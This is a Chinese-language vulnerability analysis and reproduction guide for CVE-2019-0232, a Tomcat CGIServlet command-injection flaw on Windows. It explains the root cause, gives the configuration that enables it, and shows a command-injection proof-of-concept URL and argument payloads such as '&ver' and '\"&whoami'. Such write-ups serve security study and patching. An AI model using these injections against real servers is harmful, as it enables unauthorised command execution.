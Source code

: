 （CVE-2019-0232）Tomcat rce
===========================

一、漏洞简介
------------

该漏洞是由于Tomcat
CGI将命令行参数传递给Windows程序的方式存在错误，使得CGIServlet被命令注入影响。

该漏洞只影响Windows平台，要求启用了CGIServlet和enableCmdLineArguments参数。但是CGIServlet和enableCmdLineArguments参数默认情况下都不启用。

二、漏洞影响
------------

Apache Tomcat 9.0.0.M1 to 9.0.17

Apache Tomcat 8.5.0 to 8.5.39

Apache Tomcat 7.0.0 to 7.0.93

三、复现过程
------------

### 漏洞分析

漏洞相关的代码在
`tomcat\java\org\apache\catalina\servlets\CGIServlet.java`
中，CGIServlet提供了一个cgi的调用接口，在启用 `enableCmdLineArguments`
参数时，会根据RFC 3875来从Url参数中生成命令行参数，并把参数传递至Java的
`Runtime` 执行。 这个漏洞是因为 `Runtime.getRuntime().exec`
在Windows中和Linux中底层实现不同导致的。下面以一个简单的case来说明这个问题，在Windows下创建arg.bat：

    rem arg.bat
    echo %*

并执行如下的Java代码

    String [] cmd={"arg.bat", "arg", "&", "dir"};
    Runtime.getRuntime().exec(cmd);

在Windows下会输出 `arg` 和 `dir`
命令运行后的结果。同样的，用类似的脚本在Linux环境下测试：

    # arg.sh
    for key in "$@"
    do
        echo '$@' $key
    done
    String [] cmd={"arg.sh", "arg", "&", "dir"};
    Runtime.getRuntime().exec(cmd);

此时的输出为

    $@ arg
    $@ &
    $@ dir

导致这种输出的原因是在JDK的实现中 `Runtime.getRuntime().exec` 实际调用了
`ProcessBuilder` ，而后 `ProcessBuilder` 调用 `ProcessImpl`使用系统调用
`vfork` ，把所有参数直接传递至 `execve`。

用 `strace -F -e vfork,execve java Main`
跟踪可以看到上面的Java代码在Linux中调用为

    execve("arg.sh", ["arg.sh", "arg", "&", "dir"], [/* 23 vars */])

而如果跟踪类似的PHP代码 `system('a.sh arg & dir');` ，得到的结果为

    execve("/bin/sh",  ["sh", "-c", "a.sh arg & dir"], [/* 23 vars */])

所以Java的 `Runtime.getRuntime().exec`
在CGI调用这种情况下很难有命令注入。而Windows中创建进程使用的是
`CreateProcess` ，会将参数合并成字符串，作为 `lpComandLine` 传入
`CreateProcess` 。程序启动后调用 `GetCommandLine` 获取参数，并调用
`CommandLineToArgvW` 传至 argv。在Windows中，当 `CreateProcess`
中的参数为 bat 文件或是 cmd 文件时，会调用 `cmd.exe` , 故最后会变成
`cmd.exe /c "arg.bat & dir"`，而Java的调用过程并没有做任何的转义，所以在Windows下会存在漏洞。

除此之外，Windows在处理参数方面还有一个特性，如果这里只加上简单的转义还是可能被绕过，
例如 `dir "\"&whoami"` 在Linux中是安全的，而在Windows会执行命令。

这是因为Windows在处理命令行参数时，会将 `"`
中的内容拷贝为下一个参数，直到命令行结束或者遇到下一个 `"` ，但是对 `\"`
的处理有误。同样用 `arg.bat` 做测试，可以发现这里只输出了 `\`
。因此在Java中调用批处理或者cmd文件时，需要做合适的参数检查才能避免漏洞出现。

### 漏洞复现

笔者使用的复现环境为9.0.12 + JRE 1.8.0。

首先进行CGI相关的配置，在 `conf/web.xml` 中启用CGIServlet：

    <servlet>
        <servlet-name>cgi</servlet-name>
        <servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
        <init-param>
          <param-name>cgiPathPrefix</param-name>
          <param-value>WEB-INF/cgi-bin</param-value>
        </init-param>
        <init-param>
          <param-name>enableCmdLineArguments</param-name>
          <param-value>true</param-value>
        </init-param>
        <init-param>
          <param-name>executable</param-name>
          <param-value></param-value>
        </init-param>
        <load-on-startup>5</load-on-startup>
    </servlet>

这里主要的设置是 `enableCmdLineArguments` 和 `executable` 两个选项。
`enableCmdLineArguments` 启用后才会将Url中的参数传递到命令行，
`executable` 指定了执行的二进制文件，默认是
`perl`，需要置为空才会执行文件本身。

同样在 `conf/web.xml` 中启用cgi的servlet-mapping

    <servlet-mapping>
        <servlet-name>cgi</servlet-name>
        <url-pattern>/cgi-bin/*</url-pattern>
    </servlet-mapping>

之后修改 `conf/context.xml` 的
`` ` 添加 ``privileged=\"true\"\`属性，否则会没有权限

    <Context privileged="true">

        <!-- Default set of monitored resources. If one of these changes, the    -->
        <!-- web application will be reloaded.                                   -->
        <WatchedResource>WEB-INF/web.xml</WatchedResource>
        <WatchedResource>WEB-INF/tomcat-web.xml</WatchedResource>
        <WatchedResource>${catalina.base}/conf/web.xml</WatchedResource>

        <!-- Uncomment this to disable session persistence across Tomcat restarts -->
        <!--
        <Manager pathname="" />
        -->
    </Context>

然后在 `ROOT\WEB-INF` 下创建 `cgi-bin` 目录, 并在该目录下创建一个内容为
`echo Content-type: text/html` 的 `e.bat` 文件。

配置完成后，启动tomcat，访问 `http://0-sec.org:8080/cgi-bin/e.bat?&ver`
，可以看到命令执行成功。

参考链接
--------

> <https://xz.aliyun.com/t/4875>
